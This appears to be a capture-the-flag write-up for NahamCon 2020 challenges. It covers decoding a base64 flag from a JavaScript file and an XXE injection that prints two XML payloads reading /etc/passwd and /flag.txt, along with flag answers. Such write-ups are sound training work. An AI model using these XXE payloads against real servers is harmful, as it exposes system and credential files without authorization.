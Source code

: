 flag{user_agents_undercover}

### Localghost

I looked at source code and accesed "/jquery.jscroll2.js". I took the code given and pasted it into a jsbeautifier. 
![alt text](https://github.com/Alex-Stinga/CTF/blob/master/2020/nahamCon/localghost/img2.png)

This value, SkNURntzcG9vb29va3lfZ2hvc3RzX2luX3N0b3JhZ2V9,  is base64 enoded. Decoding it gives the flag.
JCTF{spoooooky_ghosts_in_storage}

### Extraterrestrial

I inputed gibberish first time, got the error 'end of document' so i though it may be xxe.

I tried to see the contents of /etc/passwd and definitely is xxe.

``` xml
<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE netspi [<!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<root>
  <content>&xxe;</content>
</root>
```


``` xml
<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE netspi [<!ENTITY xxe SYSTEM "file:///flag.txt" >]>
<root>
  <content>&xxe;</content>
</root>
```

flag{extraterrestrial_extra_entities}

# **MISC**

### Fake file
![alt text](https://github.com/Alex-Stinga/CTF/blob/master/2020/nahamCon/fake%20file/img.png)
